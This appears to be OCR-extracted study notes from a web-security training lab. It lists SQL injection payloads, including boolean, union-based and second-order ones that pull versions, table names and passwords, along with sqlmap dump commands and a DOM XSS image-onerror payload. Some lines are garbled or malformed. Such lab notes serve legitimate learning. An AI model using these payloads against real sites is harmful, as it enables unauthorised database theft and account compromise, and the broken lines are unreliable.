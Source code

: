 ## Injection 0x01

Jermey\' or 1=1#

Jeremy\' union select null,null,version()#

Jermey\' union select null,null,from injection0x01#

## Injection 0x02

Cookie session=

\' or 1=1#

Use the above payload in burp.

WE can still get the welcome page without actual passwd..

\'and substring(\'a\',1,1) = \'a\'# ..Substring..

***sqlmap -r request.txt \--level=2 \--dump -T injection0x02***

## Injection 0x03

> x\' or 1=1# ***sqlmap -r req.txt -T injection0x03_users \--dump***
>
> Use the below payloads in the search bar of the lab to get the
> database details\...
>
> **Tanjyoubi Sushi Rack\' union select null, null, null, password from
> injection0x03_users#**

### Tanjyoubi Sushi Rack\' union select null,null,null, table_name from information_schema.tables#

## Injection 0x04

Second order SQL injection.

Signup using a SQL payload (username) and a passwd.

Later on use the same user name and the above passwd.

**4.Cros side scripting.**

## XXS 0x01

> DOM based XSS

List updated entirely locally.

**\<**

**img src=x onerror=\"prompt(1).\>\"**

**\<**
